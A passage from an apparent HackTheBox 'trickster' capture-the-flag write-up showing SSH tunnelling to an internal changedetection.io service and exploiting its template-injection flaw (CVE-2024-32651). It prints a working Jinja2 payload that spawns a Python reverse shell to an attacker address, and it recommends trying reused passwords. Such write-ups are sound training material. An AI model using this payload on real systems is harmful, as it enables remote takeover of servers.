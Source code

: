 Time to ssh tunnel and try to access this, otherwise if I cannot I'll need to proxychain or something.

```bash
ssh james@trickster.htb -L 5000:172.17.0.2:5000
```

![change.io login page]({{ page.img }}_08_5000_front_page.png)

## change.io

### CVE-2024-34716

Change detection io is a service that can dynamically check for changes in sites or endpoints. When a change is detected notifications can be sent out, and those notifications baseline use templates. I have a solid idea what the next exploit might be. However I need access to the dashboard. Maybe the password for james??

![chamge.io dashboard]({{ page.img }}_09_5000_dashboard.png)

Always try to reuse passwords, people are animals who like simplicity and it's far too common for users to reuse passwords where they oughtn't. [https://www.reddit.com/r/opensource/comments/1coi0u2/remote_code_execution_in_changedetectionio/](https://www.reddit.com/r/opensource/comments/1coi0u2/remote_code_execution_in_changedetectionio/) is a reddit post about an RCE which links to another post, linking to yet another post of [https://blog.hacktivesecurity.com/index.php/2024/05/08/cve-2024-32651-server-side-template-injection-changedetection-io/](https://blog.hacktivesecurity.com/index.php/2024/05/08/cve-2024-32651-server-side-template-injection-changedetection-io/
) which actually dives into the exploit that uses, we guessed it, SSTI. 

Look at version on site, see 0.45.20, a crazy coincidence that the version that fixes this SSTI issue is 0.45.21

Anyway the attack chain here is fairly simple. Host an http server and setup a tracker for that server. Make the notification SSTI which executes a shell, then induce a change and recheck. The notification should trigger the payload and you should get a shell. After testing below is the payload:

{% raw %}
```python
{% for x in ().__class__.__base__.__subclasses__() %}
{% if "warning" in x.__name__ %}
{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import os,pty,socket;s=socket.socket();s.connect((\"10.10.14.2\",7777));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn(\"/bin/bash\")'").read()}}
{% endif %}
{% endfor %}
```
{% endraw %}


![change.io notifications ssti payload]({{ page.img }}_10_5000_notifications_ssti.png)

Now here I did some testing and needed to add `gets://` as the URL, I think it needed a place to send the notification and this tosses it at an empty API endpoint. Setup the server and a listened, then get a shell.
